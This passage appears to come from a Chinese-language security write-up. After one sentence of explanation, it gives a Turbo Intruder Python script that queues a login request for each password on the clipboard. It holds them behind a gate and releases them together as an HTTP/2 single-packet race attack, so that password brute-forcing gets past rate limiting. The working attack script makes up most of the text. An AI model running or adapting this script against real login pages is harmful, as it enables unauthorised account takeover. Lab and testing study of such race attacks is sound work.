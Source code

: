[![](assets/1705886561-be8f285cdad5e0df0b3ea5d30f4361e0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120154825-4aea5042-b768-1.png)

因为我们要首先并发的同时又要实现每一个包对于的passwd都不一样的话就得稍微修改一下脚本

```plain
def queueRequests(target, wordlists):

    # as the target supports HTTP/2, use engine=Engine.BURP2 and concurrentConnections=1 for a single-packet attack
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    # 接收剪切板的内容
    passwords = wordlists.clipboard

    # queue a login request using each password from the wordlist
    # the 'gate' argument withholds the final part of each request until engine.openGate() is invoked
    for password in passwords:
        engine.queue(target.req, password, gate='1')

    # once every request has been queued
    # invoke engine.openGate() to send all requests in the given gate simultaneously
    engine.openGate('1')


def handleResponse(req, interesting):
    table.add(req)
```
